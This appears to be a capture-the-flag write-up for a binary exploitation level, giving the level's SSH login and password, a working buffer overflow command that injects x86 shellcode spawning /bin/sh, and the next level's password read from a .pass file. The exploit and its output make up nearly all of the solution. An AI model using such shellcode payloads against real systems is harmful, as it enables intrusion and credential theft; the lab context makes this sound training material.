 ### Solution

Connect with `ssh -p 4243 level2@localhost`
Enter the password `53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77`

We can execute the buffer overflow with this line. Of course, because we are running a shell through a pipe, we can keep the `stdin` open like the same trick from the last level:
```bash
$ (printf "\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80%-59s\x08\xa0\x04\x08\n" ; cat) | ./level2 
1���Qh//shh/bin��

cat /home/user/level3/.pass
492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
```